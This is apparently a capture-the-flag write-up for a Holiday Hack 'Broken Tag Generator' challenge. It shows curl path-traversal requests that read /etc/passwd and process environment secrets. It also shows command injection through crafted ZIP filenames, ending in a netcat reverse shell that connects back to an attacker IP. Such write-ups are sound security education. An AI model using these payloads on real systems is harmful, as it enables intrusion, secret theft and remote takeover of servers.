 # Objective 8: Broken Tag Generator
Location: Wrapping Room

The objective is to obtain the value of the environment variable `GREETZ` of the [Tag Generator](https://tag-generator.kringlecastle.com/).

## Solution using Path Traversal

It was found that the image download function allows path traversal:
```
curl https://tag-generator.kringlecastle.com/image?id=../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
[...]
```
Using this the value of the environment variable can be obtained like this:
```
curl https://tag-generator.kringlecastle.com/image?id=../../proc/self/environ --output -
PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=cbf2810b7573RUBY_MAJOR=2.7RUBY_VERSION=2.7.0RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343GEM_HOME=/usr/local/bundleBUNDLE_SILENCE_ROOT_WARNING=1BUNDLE_APP_CONFIG=/usr/local/bundleAPP_HOME=/appPORT=4141HOST=0.0.0.0GREETZ=JackFrostWasHereHOME=/home/app
```
So the `GREETZ` variable contains **JackFrostWasHere**

## Solution using RCE

The [Ruby application code](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-8/app.rb) can be downloaded through the above path traversal (the full path of `app.rb` is displayed in the application's error messages):
```
curl https://tag-generator.kringlecastle.com/image?id=../../app/lib/app.rb --output app.rb
```
The application code allows to place uploaded files in a chosen place on the remote system using the ZIP upload function.
Furthermore the application starts the `convert` tool from  ImageMagick which makes it possible to inject shell commands:
```
jsw@io:*$ touch \'\;env\>joergen\;\'.jpg
jsw@io:*$ zip joergen.zip \'\;env\>joergen\;\'.jpg 
  adding: ';env>joergen;'.jpg (stored 0%)
jsw@io:*$ curl https://tag-generator.kringlecastle.com/upload -F'my_file[]=@joergen.zip'
["7ebc17be-a3ea-48f5-95ea-730e1b006520.jpg"]
jsw@io:*$ curl https://tag-generator.kringlecastle.com/image?id=../tmp/joergen
RUBY_MAJOR=2.7
GREETZ=JackFrostWasHere
[..]
```

## Full Interactive Remote Shell
**Option 1**
Create a ZIP file including an empty jpg file:
```
touch joergen.jpg
zip joergen.zip joergen.jpg
```
Modify the contained filename to one with the shell command for the reverse shell (filename needs to end with an image extention as the application checks for that):
```
printf "@ joergen.jpg\n@=\';nc <your IP address> 4444 -e \`which bash\`;'.jpg\n" | zipnote -w joergen.zip
```

**Option 2**
Create the tailored filename directly:
```
touch \'\;nc\ <your IP address>\ 4444\ -e\ \`which\ bash\`\;\'.jpg
zip joergen.zip \'\;nc\ <your IP address>\ 4444\ -e\ \`which\ bash\`\;\'.jpg
```

**Common part**
Start the reverse shell listener on your local device:
```
nc -lnvp 4444
```
Get it started:
```
curl https://tag-generator.kringlecastle.com/upload -F'my_file[]=@joergen.zip'
```
Now you have in the reverse shell listener an interactive shell as user `app`.
The user `app` has write access to `/tmp` and `/home/app`.
In addition the user has write access to `/usr/local/bundle`, where the web server is located.
<!--stackedit_data:
eyJoaXN0b3J5IjpbMjEyNTU5OTAzNiwxNDQwMDk3MDgzLC05Mz
U4MTMyODgsLTYxMzQ0OTY1NiwtMTA1MjE2MzYxNywtMTc2MzU0
MTM1NSwxNjA3MzQ4NTE0LC04MjMwNTA4NjEsMTI5MzcyMDQzOS
wxMzk1Nzk0ODI0LC0xNTk5MjU0NDE1LC02MTkyOTc0MTEsLTU3
NjYxMDA3NSwyMTA3NTI5ODQ2LDkyMjE0NDM1LC0zOTg0OTE0Nj
EsMTE1MTU1Njg5NiwyMzg0NjAyNzIsMTkzMzM2MTc4NywtMTQ2
NzYxNTI2Ml19
-->